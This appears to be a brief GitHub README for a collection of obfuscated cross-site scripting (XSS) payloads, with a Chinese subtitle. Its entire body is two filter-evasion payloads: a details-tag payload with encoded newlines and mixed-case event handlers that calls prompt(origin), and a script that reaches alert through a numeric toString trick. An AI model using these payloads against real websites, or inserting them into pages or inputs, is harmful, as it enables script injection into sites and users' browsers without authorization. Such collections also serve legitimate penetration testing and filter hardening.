 # XSS_Payload_Collection
变形 XSS Payload 收集

```html
<dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>

<script>top[8680439..toString(30)](1337)</script>
```
